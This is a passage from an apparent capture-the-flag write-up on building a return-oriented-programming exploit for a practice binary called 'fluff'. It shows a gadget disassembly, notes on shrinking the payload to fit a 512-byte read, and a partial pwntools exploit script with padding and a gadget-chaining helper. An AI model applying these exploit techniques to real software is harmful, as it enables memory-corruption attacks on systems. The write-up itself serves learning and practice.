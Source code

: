 ```
8  bytes | -------------- |

```
```
   0x0000000000400628 <+0>:     xlat   BYTE PTR ds:[rbx]        # Gadget 1
   0x0000000000400629 <+1>:     ret    
   0x000000000040062a <+2>:     pop    rdx                      # Gadget 2
   0x000000000040062b <+3>:     pop    rcx
   0x000000000040062c <+4>:     add    rcx,0x3ef2
   0x0000000000400633 <+11>:    bextr  rbx,rcx,rdx
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    stos   BYTE PTR es:[rdi],al     # Gadget 3
   0x000000000040063a <+18>:    ret    

```

After coding up my first exploit it would fail after writing a couple of characters. It took a little debugging, but I found out that the read would only read in 512 characters and my exploit was close to 900 which was way to long. So I went back and found a couple of areas that I could trim down the exploit. For example, I discovered that the stosb instruction incremented the destination by 1 every time it was run, so after setting rdi once, I didn't have to continue to reset it. I also saw that rdx was never touched, so it could be set once. After trimming down the exploit I was left with this.
```Python
#!/usr/bin/python3

from pwn import *

write_loc 	= 0x601029
print_file 	= p64(0x400620)

target		= "./fluff"
back_junk 	= b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2
badChars = b"xga."

# 0040069a: pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
pop_rbx_size = 0
rdx_set = False
# unpacker_64 = make_unpacker(64)
def pop_rbx(rbx):
	global unpacker_64
	global rdx_set
	if not rdx_set:
		returnPayload = p64(0x40062a)
		#rdx val, control for bextr
		# should start at bit 0 and then copy 64 bit
		returnPayload += p64(0xff00)
		rdx_set = True
	else:
		returnPayload = p64(0x40062a + 1)
	# rcx val
	# this will get placed into rbx after + 0x3ef2
	returnPayload += p64( (rbx) - 0x3ef2)
	global pop_rbx_size
	pop_rbx_size += len(returnPayload)
	return returnPayload


```